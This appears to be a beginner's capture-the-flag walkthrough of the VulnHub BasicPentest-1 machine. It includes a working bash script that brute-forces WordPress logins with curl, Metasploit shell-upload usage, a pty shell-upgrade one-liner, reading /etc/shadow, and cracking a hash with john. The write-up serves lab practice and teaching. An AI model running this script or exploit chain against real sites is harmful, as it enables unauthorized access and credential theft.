Hi guys, today I am taking on the BasicPentest-1 box from vulnhub. Its a boot2root challenge so lets try to do this for practice.

First I Netdiscovered to find ip of the BasicPentest machine. Found a machine with MAC Address linked to PCS Systemtechnik, quick google search tells us this is the usual Mac Address link for VirtualBox.

```netdiscover```



After that let's Nmap the target to see what ports are open to plan our attack.



We see that http is open so lets visit the website and see what we can find. 



We are given this basic html page stating that there is no content added to this web server.

It seemed odd that they would have a website running with no content on a purposely vulnerable machine so I used ```dirb``` to see if we can find any hidden directories that might be vulnerable.



When we visit the directory we are greeted with this page, suggesting that the webserver runs on wordpress.



Scrolling down I see a link for WordPress login. Which brings me to this login page.



Since we don't know the username or password I started up Burp Suite and submitted a test login to see what the request looked like.



After checking the post Request it looks like the request is sent in this format:

```
POST /secret/wp-login.php HTTP/1.1
Host: vtcsec
Content-Length: 121
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://vtcsec
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://vtcsec/secret/wp-login.php
Accept-Encoding: gzip, deflate, br
Cookie: wordpress_test_cookie=WP+Cookie+check
Connection: keep-alive

log=blah&pwd=blah&rememberme=forever&wp-submit=Log+In&redirect_to=http%3A%2F%2Fvtcsec%2Fsecret%2Fwp-admin%2F&testcookie=1
```

Using this info I constructed a bash script called brute.sh that would send a curl request to the website with each username in common.txt found in /usr/share/wordlists/wfuzz/general and for each password in passwords.txt

brute.sh
```bash
#!/bin/bash

URL="http://vtcsec/secret/wp-login.php"

while IFS= read -r user; do
    while IFS= read -r password; do
        user=$(echo "$user" | tr -d '\r')
        password=$(echo "$password" | tr -d '\r')
        
        echo "Trying: $user:$password"
        
        response=$(curl -s -w "%{http_code}" -o /dev/null \
            "$URL" \
            -H "Content-Type: application/x-www-form-urlencoded" \
            -H "Cookie: wordpress_test_cookie=WP+Cookie+check" \
            --data-raw "log=$user&pwd=$password&rememberme=forever&wp-submit=Log+In&redirect_to=http%3A%2F%2Fvtcsec%2Fsecret%2Fwp-admin%2F&testcookie=1")
        
        if [[ "$response" == "302" ]]; then
            echo "SUCCESS: $user:$password"
            echo "$user:$password" > found.txt
            exit 0
        fi
    done < passwords.txt
done < users.txt

echo "No valid credentials found"
```



Great now we have admin credentials so we can successfully log in to the admin panel of the word press website.



After looking around the only thing that pops out is an outdated plugin. However since we have a valid admin credential lets see if metasploit is able to give us a shell by using the WordPress admin shell upload module.

Running search for wordpress in msfconsole gives me this:



Immediately this one seems promising as its a shell upload which is exactly what we need.

```
51   exploit/unix/webapp/wp_admin_shell_upload                      2015-02-21       excellent  Yes    WordPress Admin Shell Upload
```

After checking the options of this exploit using ```show options``` we then set the options based on the already known info and run the exploit.



Great we got a meterpreter shell!



lets upgrade this to a proper shell using python. First run shell to get a standard shell then use ```python -c 'import pty; pty.spawn("/bin/sh")'```
to get a proper shell which allows us to use most commands.



Looking at common linux privilege escalation techniques I go through the list and find that I am able to read the /etc/shadow file. There I find marlinspike's account and find a hash that corresponds to a password.



I copy and paste the username:hash into a file in my kali machine called marlin.pass and run ```john -single marlin.pass```



Great now we know the password to marlinspike's user account, lets ssh as him and see what we can do.



I first try to sudo and success we are able to ```sudo ls``` which means we have root permissions and we have successfully rooted this machine.

Thanks for reading my first write up. I had a lot of fun cracking this machine and writing about it.
